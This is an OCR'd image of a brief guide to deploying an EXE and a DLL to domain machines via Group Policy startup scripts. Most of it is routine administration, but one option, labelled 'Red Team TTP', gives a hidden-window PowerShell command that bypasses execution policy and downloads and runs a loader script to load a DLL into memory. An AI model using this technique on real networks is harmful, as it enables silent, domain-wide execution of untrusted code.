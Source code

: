 1. Deploying .EXE via GPO (Startup Script)

This is common when using startup scripts for machine-wide deployment.
Step-by-step:

    Place updatepolicy.exe in a network share that is readable by domain computers (e.g., \\DC01\Software\updatepolicy.exe).

    Create a startup script:
```
@echo off
\\DC01\Software\updatepolicy.exe /silent

Save it as deploy_updatepolicy.bat
```
    Create or edit a GPO:

    Go to Group Policy Management.

    Create a new GPO (e.g., DeployUpdatePolicy).

    Navigate to:

    Computer Configuration → Policies → Windows Settings → Scripts (Startup/Shutdown) → Startup

    Add deploy_updatepolicy.bat.

    Link the GPO to the target OU.

    Force GPO update on a target system (optional):

```gpupdate /force```
2. Deploying .DLL via GPO (Using a Loader)

Windows Group Policy cannot natively load DLLs as executables. You need a loader binary or PowerShell-based reflective loader to execute the DLL.
Option A: Use rundll32

If your DLL exports a valid function:
```
rundll32.exe \\DC01\Software\updatepolicy.dll,EntryPoint
```
    Replace EntryPoint with the exported function name (must be stdcall).

Option B: Use PowerShell Reflective DLL Loader (Red Team TTP)
```
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "IEX (New-Object Net.WebClient).DownloadString('http://DC01/updatepolicy_loader.ps1')"
```
Where updatepolicy_loader.ps1 is a script that loads the DLL into memory using Add-Type or raw .NET assembly loading.
